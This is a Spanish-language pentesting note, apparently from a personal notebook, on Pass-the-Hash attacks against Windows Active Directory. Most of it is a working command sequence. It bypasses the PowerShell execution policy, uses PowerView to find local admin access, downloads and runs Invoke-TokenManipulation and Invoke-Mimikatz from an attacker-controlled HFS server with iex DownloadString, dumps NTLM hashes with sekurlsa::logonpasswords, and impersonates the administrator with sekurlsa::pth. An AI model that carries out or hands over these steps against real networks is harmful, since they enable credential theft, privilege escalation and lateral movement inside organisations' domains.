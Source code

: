 # Pass The Hash 

Tags: #AD #Windows #PassTheHash 

PtH es una técnica donde robas una credencial principalmente en los sistemas Windows. Un atacante puede obtener los hashes de las password de un usuario y usarlo para autenticarse como ese usuario, bypaseando la necesidad de la actual password en texto plano. Este ataque principalmente comienza cuando el atacante gana acceso no autorizado a un sistema comprometido donde los hashes de las password estan almacenadas. Una vez adquiridas, el atacante puede explotar la vulnerabilidad en el protocolo de autenticacion de Windows, como un NTLM o Kerberos, para pasar las credenciales hasheadas a otros sistemas dentro del dominio de AD.  Para 'bypassing' se necesita crackear la password, el atacante puede moverse lateralmente dentro de la red, escalar privilegios y potencialmente hacer actividades maliciosas.  

Los atacantes obtienen fácilmente las credenciales hasheadas para loas ataques de AD haciendo 'Pass-The-hash' por medio del dumpeo de memoria o robando hashes de contraseñas desde sistemas comprometidos.  

```bash 
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1
```

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain 
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin

❯ Enter-PSSession seclogs.domian.local       # Nos autenticamos a la sesion local via remota al 'DOMINIO' 
	❯ whoami /all                           
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.webClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1') # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
		❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1') 
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin' 
```

## Mimikatz

```powershell
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'

# Despliega una nueva venta en Powershell
❯ Enter-PSSession prod.research.domian.local # Ingresamos al 'DOMINIO' via remota como el usuario Admin
```

```powershell
❯ Invoke-mimikatz -Command '"sekurlsa::pth /user:user /domain:domain1.corp /rc4:hash /run:powershell.exe"'

	# rc4 = El hash NTLM del usuario encontrado con el comando 'DumpCreds'
	# sekurlsa = Pass-The-Hash
```